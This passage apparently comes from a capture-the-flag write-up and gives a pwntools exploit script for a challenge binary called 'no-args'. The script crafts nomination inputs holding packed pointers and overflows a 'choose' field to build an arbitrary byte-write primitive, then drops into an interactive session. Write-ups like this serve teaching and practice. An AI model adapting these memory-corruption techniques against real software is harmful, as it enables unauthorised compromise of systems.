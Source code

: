 ```python
add(aout.symbols["state"], -1) # reset back to nomination

nominate("pwn")

p.interactive()
```

*Putting it all together*:

<div class="panel-group">
  <div class="panel panel-success">
    <div class="panel-heading">
      <h3 class="panel-title">
        <a data-toggle="collapse" href="#collapseCode" aria-expanded="false" aria-controls="collapseCode">
        Complete Code Listing <small>(click to expand)</small>
        <i class="glyphicon glyphicon-menu-left pull-right"></i>
        <i class="glyphicon glyphicon-menu-down pull-right"></i>
        </a>
      </h3>
    </div>
    <div id="collapseCode" class="panel-collapse collapse">
<div class="panel-body" markdown="1">

#### Code:

```python
#!/bin/env python3
from pwn import *

aout = ELF("no-args")

p = process("./no-args")

def echo(str):
    print(str)
    p.sendline(str)
    _ = "".join(map(chr, p.recvline(timeout=2))).rstrip()
    print(_)
    return _

def wait_prompt():
    print("".join(map(chr, p.recvuntil("> "))).rstrip())

def nominate(name):
    wait_prompt()
    echo("1")
    wait_prompt()
    echo(name)

# Everything after "list" is writable and EMPTY. We have a blank canvas.
emptyblock = aout.symbols["list"] + 8 # 0x602030
nominate(b'\xff'*16 + p64(emptyblock)) #nominates "\xFF\xFF...\x30\x20\x60\x00"

nominate("dummy")

nominate("no-args")

def add(addr, value):
    wait_prompt()
    value = value if value>=0 else value+256 # p8() requires bit-equivalent positive value

    echo("2")
    echo("n")
    echo("choose")
    echo(b'yes\0' + b' '*(32-4) + p64(addr - 0x10) + p8(value))
```